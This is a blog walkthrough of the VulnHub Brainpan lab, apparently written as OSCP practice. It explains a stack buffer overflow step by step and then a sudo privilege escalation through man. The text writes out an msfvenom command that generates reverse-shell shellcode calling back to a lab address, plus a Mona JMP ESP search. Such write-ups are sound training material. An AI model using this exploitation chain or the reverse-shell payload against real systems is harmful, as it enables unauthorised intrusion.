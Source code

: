 ```yaml
---
layout: post
title: Brainpan Walkthrough
published: true
---
```

I've had [Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) downloaded for awhile and for some reason I haven't ran it, so having a couple of hours last night I decided to see what it was all about. Unbeknownst to me, it was exactly what I was needing...  



 
      ****Spoiler Alert****          ****Spoiler Alert****



I had been wanting to practice buffer overflows for my upcoming OSCP test, and have been working on getting Windows machine setup just for this running [vulnserver](https://github.com/stephenbradshaw/vulnserver) or something similar. As you will shortly see, this machine has that and a bit more.   

****Initial Enum****

![Brainpan NmapOutput1]({{ site.url }}/images/Brainpan/nmap1.JPG)  
![Brainpan NmapOutput2]({{ site.url }}/images/Brainpan/nmap2.JPG) 

We have an unknown service on TCP/9999 and the Python SimpleHTTPServer module running on TCP/10000. Let's see what's happening on the web service:  

![Brainpan Base_Page]({{ site.url }}/images/Brainpan/base_page_10000.JPG)  

Err, ok. A little on the nose here huh? The source shows that this is only an infographic image being hosted.  
Let's hit TCP/9999 with NetCat and see what that's all about:  

![Brainpan access_9999]({{ site.url }}/images/Brainpan/access_9999.JPG)  

Hmm, not much here either. We need more info. Let's go back to the web service and enumerate further using Nikto.  

![Brainpan Nikto]({{ site.url }}/images/Brainpan/nikto.JPG)  

Cool, we have an extra directory that we can test out ("/bin/"). We'll check that out:  

![Brainpan EXE]({{ site.url }}/images/Brainpan/EXE.JPG) 

Since we're being given the brainpan executable here, let's see if we can find the password for the service.

![Brainpan pass]({{ site.url }}/images/Brainpan/brainscan-exe_pass.JPG) 

I'm not a very good coder.....but I'll bet that's the password. 

![Brainpan granted]({{ site.url }}/images/Brainpan/brainpan_access_granted.JPG) 

Awesome. We've cracked the app and are granted access to.....um....well. Yeah nothing. No menu, shell, or extra ports were opened by using the password (must still be in development). So since it's still a service running on the remote server, why not run it locally and see if we can crash it?  

****Buffer Overflow****

One of the best resources for learning about stack-based buffer overflows is [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood). I won't go over all the steps or explain all the scrpt options here, but much of my scripts used is from that short course, just a bit modified (highly recommend going through). Moving on...

We can run brainpan.exe using Wine (Windows Emulator) and then use a simple Python script to send an increasing number of "A's" into the password field to attempt to trigger a crash. That will tell us whether or not the application is susceptible to a buffer overflow attack.



![Brainpan BOF_Trigger]({{ site.url }}/images/Brainpan/bof_trigger.JPG) 

Bingo! We're able to crash the application, almost immediately at 900 bytes.  
Once we have the crash byte count, we can restart the app, and attach our debugger ([Immunity](https://www.immunityinc.com/products/debugger/)) to the process for further analysis. 

Next we need to send it a fixed byte count (equal to the amount that will crash it), but of all unique values. This will allow us to analyze the EIP register in Immunity to determine at what point in that byte string we can start to control the flow of the program.  
To generate the unique pattern you can use the "pattern_create" Ruby script that comes with MetaSploit.  
Once we plug the unique value into our script and run it, we can then copy the value of EIP in Immunity.  

![Brainpan EIP_Control]({{ site.url }}/images/Brainpan/immunity_eip_control.JPG)  

Now we can copy out the unique value of the EIP to determine the offset value (where EIP is located exactly within the 900 bytes).  
Again, we can calculate this with the MetaSploit "pattern_offset" Ruby script (which gives us a value of 524 bytes).  
Having these values we can run the following script to ensure we have complete control over EIP:  

![Brainpan EIP_Control2]({{ site.url }}/images/Brainpan/bof_eipcontrol2.JPG)  

Here, we're buffering "A's" up to the length of the buffer, less our offset position which is when we start writing "B's" (4 exactly), we then write 4 x "C's" into the ESP register, and complete the trailing padding with whatever is left with "D's". Running the script against the restarted app shows us the following in Immunity:  

![Brainpan EIP_B]({{ site.url }}/images/Brainpan/immunity_eip_control_b.JPG) 

As you can see, our EIP register has 4 x \x42's (Hex for B's), which means we can control the flow of the program!  

Next is to check for bad characters that the application will not support. This would keep our exploit from running correctly (or at all) when executing. A separate script full of every possible bad character can be fired at the app, then analyzed and counted in Immunity, but that can be tedious. We can also generate a list of bad characters, copy that file to a directory that Immunity can access and run the [Mona module](https://github.com/corelan/mona) within Immunity to test the app that way (much easier).  An example of looking for bad characters in Immunity using Mona is below:  

![Brainpan Mona]({{ site.url }}/images/Brainpan/badchar_test.JPG) 

We've got a couple of hits! \x00 and \x0a will be excluded when we build our shellcode (which is our next step).  

The next step is to determine from which location we can launch our shellcode from? For this we can run another Mona module command:  
__!mona jmp -r esp -cpb "\x00\x0a"__  

This command searches for modules that avoid the bad characters, however you will need to ensure there are no DEP or ASLR protections. For this I only saw the brainpan.exe process so I ended up opening that process up and manually searching for a "JMP ESP" memory location, which I found at 0x311712F3. 

The [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) tool is used to generate the shellcode we'll use to trigger a reverse shell from the brainpan overflow vulnerability we found.  
Our command will be the following:  
__msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b "\x00\x0a" EXITFUNC=THREAD -f python__  

This will generate the appropriate shellcode that we can now place into our final exploit script:  

![Brainpan Exploit]({{ site.url }}/images/Brainpan/brainpan_exploit.JPG)  

Note that the script above utilizes the Python struct module for formatting the "JMP ESP" address in the script into Little-endian format (otherwise you would need to do this yourself). 

Now it's time to test it out! We definitely want to test it locally first so we don't inadvertantly crash the service on the remote host. So we'll restart our local brainpan.exe app and fire our script. 

![Brainpan ExploitTest]({{ site.url }}/images/Brainpan/exploit_success_test.JPG)  

Winner-Winner! Ok, now let's try it again, but on the target system:  

![Brainpan ExploitSuccess]({{ site.url }}/images/Brainpan/exploit_success.JPG)  

Woo-hoo! Worked like a charm, but not home free yet. It looks like we only have a limited shell. ಥ_ಥ  

****PrivEsc****

So let's see what privileges puck has (if any):  

![Brainpan Sudo]({{ site.url }}/images/Brainpan/sudo_nopass.JPG)  

Nice, right on the mark. We can run /home/anansi/bin/anansi_util as root (whatever that is). Running it with sudo shows that we have 3 options (network, proclist, and manual). I couldn't figure out how to string together the correct command sequences, until I searched how to [drop to a shell from the man comamnd](http://www.securitynewspaper.com/2018/04/25/proper-use-sudo-linux-privilege-escalation/). 

Then I knew I had it  

![Brainpan root_priv]({{ site.url }}/images/Brainpan/root_privesc.JPG)  

And......

![Brainpan Flag]({{ site.url }}/images/Brainpan/flag.JPG) 





